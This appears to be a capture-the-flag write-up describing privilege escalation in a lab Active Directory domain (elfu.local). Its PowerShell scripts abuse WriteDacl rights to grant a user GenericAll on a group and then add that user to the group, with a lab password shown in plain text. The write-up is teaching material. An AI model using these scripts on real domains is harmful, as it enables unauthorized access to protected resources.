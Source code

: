 # Pivoting Through the Snow

Using the credentials I discovered for the remote_elf user, I was able to enter a powershell session on `10.128.1.53`

![Enter-PSSession](/img/obj8-9/img1.png)

From there, I now had a powershell session on the remote end with access to .NET code. Now I can get busy.

First of all, what are the AD Groups available? I can query this using `Get-ADGroup -Filter * | select DistinguishedName`

![What AD Groups available?](/img/obj8-9/img2.png)

Interesting...I wonder if I have any tasty access capabilities on some of these groups...

After looking through a bunch, I discovered that I do have access!

Lookie lookie!

![Lookie lookie!](/img/obj8-9/img3.png)

Using:
```powershell
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access | Where-Object IdentityReference -eq 'ELFU\remote_elf'
```

I have `WriteDacl` access to the Research Department!

Giving myself access...
![Giving myself access](/img/obj8-9/img4.png)

aka:

```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "fkhcuqviyc"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = ( New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ( $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID )
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Confirming I have GenericAll access...

![Confirming I have GenericAll](/img/obj8-9/img5.png)

Now to add the user to the group!

![Add a user](/img/obj8-9/img6.png)

or

```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "fkhcuqviyc"
$password = "Biqhxtixe#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid = $user.Translate([System.Security.Principal.SecurityIdentifier])
$b = New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID = [BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Confirming I'm in the group...

`get-ADGroupMember "CN=Research Department,CN=Users,DC=elfu,DC=local" | where-object name -eq 'fkhcuqviyc'`

![Confirming I'm in the group](/img/obj8-9/img7.png)

So...can I now access the share?

![Can I access?](/img/obj8-9/img8.png)

Yup!